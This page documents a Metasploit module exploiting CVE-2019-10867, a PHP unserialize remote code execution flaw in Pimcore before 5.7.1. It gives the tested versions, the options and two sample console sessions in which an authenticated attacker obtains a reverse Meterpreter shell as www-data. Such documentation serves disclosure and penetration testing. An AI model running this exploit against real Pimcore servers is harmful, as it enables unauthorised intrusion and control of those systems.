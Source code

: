 ```yaml
---
layout: default
---
```


# Pimcore from 4.0.0 to 5.6.6 Unserialize RCE (CVE-2019-10867)

This module exploits a PHP unserialize() in Pimcore before 5.7.1 to execute arbitrary code. An authenticated user with "classes" permission could exploit the vulnerability.

The vulnerability exists in the "ClassController.php" class, where the "bulk-commit" method make it possible to exploit the unserialize function when passing untrusted values in "data" parameter.

Tested on Pimcore 5.6.6, 5.6.5, 5.6.4, 5.6.3, 5.6.2, 5.6.1, 5.6.0, 5.5.4, 5.5.3, 5.5.2, 5.5.1, 5.4.4, 5.4.3, 5.4.2, 5.4.1, 5.4.0 with the Symfony unserialize payload.

Tested on Pimcore 4.6.5, 4.6.4, 4.6.3, 4.6.2, 4.6.1, 4.6.0, 4.5.0, 4.4.3, 4.4.2, 4.4.1, 4.4.0, 4.3.1, 4.3.0, 4.2.0, 4.1.3, 4.1.2, 4.1.1, 4.1.0, 4.0.1, 4.0.0 with the Zend unserialize payload.

## Module Name

exploit/multi/http/pimcore_unserialize_rce

## Authors

* Daniele Scanu (Discovery)
* Fabio Cogno (Metasploit Module)

## Disclosure date

Mar 11, 2019

## Actions

* CHECK
* EXPLOIT

## Reliability

[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## References

* [MITRE entry](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10867)
* [Pimcore GitHub fix](https://github.com/pimcore/pimcore/commit/38a29e2f4f5f060a73974626952501cee05fda73)
* [SNYK entry](https://snyk.io/vuln/SNYK-PHP-PIMCOREPIMCORE-173998)

## Required Options

* RHOST - The target address
* RPORT - The target port (TCP)
* USERNAME - Username to authenticate with
* PASSWORD - Password to authenticate with

## Not Required Options

* TARGETURI - Base Pimcore directory path ("/" is the default)

## Basic Usage

To display the available options, load the module within the Metasploit console and run the commands 'show options'.

### Sample on Pimcore 5.x

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8566
rport => 8566
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password pimcore
password => pimcore
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8566 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:pimcore
[*] Pimcore version: 5.6.6
[*] Pimcore build: 9722d19576f9e49969d4a3708e045fa481eaad02
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/var/tmp/bulk-import.tmp
[*] Selected payload: Pimcore 5.x (Symfony unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:34128) at 2019-04-07 12:04:08 +0200
[!] This exploit may require manual cleanup of '/var/www/html/var/tmp/bulk-import.tmp' on the target

meterpreter > 
[+] Deleted /var/www/html/var/tmp/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```

### Sample on Pimcore 4.x

```
msf5 > use exploit/multi/http/pimcore_unserialize_rce 
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/pimcore_unserialize_rce) > set rport 8465
rport => 8465
msf5 exploit(multi/http/pimcore_unserialize_rce) > set username admin
username => admin
msf5 exploit(multi/http/pimcore_unserialize_rce) > set password P1mc0r3_4dm1n
password => P1mc0r3_4dm1n
msf5 exploit(multi/http/pimcore_unserialize_rce) > check
[*] 192.168.2.59:8465 - The target service is running, but could not be validated.
msf5 exploit(multi/http/pimcore_unserialize_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[+] Authentication successful: admin:P1mc0r3_4dm1n
[*] Pimcore version: 4.6.5
[*] Pimcore build: 4123
[+] The target is vulnerable!
[+] JSON paylod uploaded successful: /var/www/html/website/var/system/bulk-import.tmp
[*] Selected payload: Pimcore 4.x (Zend unserialize payload)
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:57882) at 2019-04-07 12:00:20 +0200
[+] Deleted /var/www/html/website/var/system/bulk-import.tmp

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/pimcore_unserialize_rce) > 
```

---

[back](./)
